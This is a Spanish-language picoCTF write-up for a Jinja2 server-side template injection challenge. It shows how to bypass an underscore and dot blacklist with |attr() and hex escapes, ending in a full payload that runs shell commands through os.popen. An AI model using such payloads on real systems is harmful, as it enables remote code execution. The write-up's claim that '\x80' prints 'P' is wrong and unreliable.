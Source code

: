 I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.

Hints:
- Server Side Template Injection
- Why is blacklisting characters a bad idea to sanitize input?

## Solución
El entorno sigue siendo el mismo que en el reto [SSTI1](/picoCTF/Web/Examen/SSTI1.md), sin embargo, la seguridad se ha incrementado.

Este es el payload que funcionó con anterioridad:
`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`

Sin embargo, ahora ya no se puede usar ni los puntos ni los guiones bajos, por lo que hay que obtener la bandera de otro modo.

En Python, se puede obtener el atributo de una clase usando la sintaxis `objeto|attr('atributo')`. Además, el motor de renderizado de la página es Jinja2, por lo cual, tiene objetos especiales, por ejemplo:
1. request
2. self
3. cycler
4. config

El objeto que importa es el de request, ya que contiene atributos importantes, entre ellos, uno llamado `application`, que contiene información de la aplicación ejecutandose. Siguiendo la sintaxis de obtener atributos, y el payload del reto anterior, el objetivo es llegar a los globals, que contiene una lista de modulos importados, donde se encuentra el módulo 'os' para ejecutar.

`{{ request|attr('application') ` es el payload inicial. Después de eso, se debería acceder a la variable globals, el cual, en Python se llama `__globals__`. Pero el servidor filtra los guiones bajos, entonces hay que tomar otra aproximación. Lo que se puede hacer en Python dentro de un string es usar el código ascii en formato hexadecimal, y así se pueden poner caracteres, por ejemplo:

`print('\x80')` imprimiría la letra 'P', por lo tanto, se puede usar  para agregar los guiones bajos sin escribir literalmente los guiones bajos. El siguiente  payoload sería este:

`{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f') }}`. Con esto, devuelve un diccionario. En Python, al usar `diccionario['clave']`, se invoca un método especial llamado `__getitem__`, y por lo tanto, se usará: `attr('\x5f\x5fgetitem\x5f\x5f')` para obtener la referencia de la función. Justo al lado, hay que agregar los paréntesis `('valor')` para invocarla. Sin embargo, aún no tenemos al alcance el módulo 'os'. Al parecer hay un módulo intermedio llamado `__builtins__`, el cual también es un diccionario. Por lo tanto, esta parte del payload quedaría así:

`attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')`

El diccionario 'builtins' si que contiene el módulo de os, pero dentro de un objeto llamado `__import__`, por lo tanto, esta parte quedaría de la siguiente manera:

`attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')`

Ahora si se tiene acceso al módulo os, y traduciendo la parte del payload del reto anterior: `os.popen('id').read()`, quedaría así:

`attr('popen')('id')|attr('read')()`

Al estar en el mismo entorno que el reto [SSTI1](/picoCTF/Web/Examen/SSTI1.md), se llegó a la conclusión que el comando que daba la bandera es `cat flag`, por lo tanto, el payload final para obtener la bandera sería este:

`{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')() }}`

`picoCTF{sst1_f1lt3r_byp4ss_5b0b2f79}`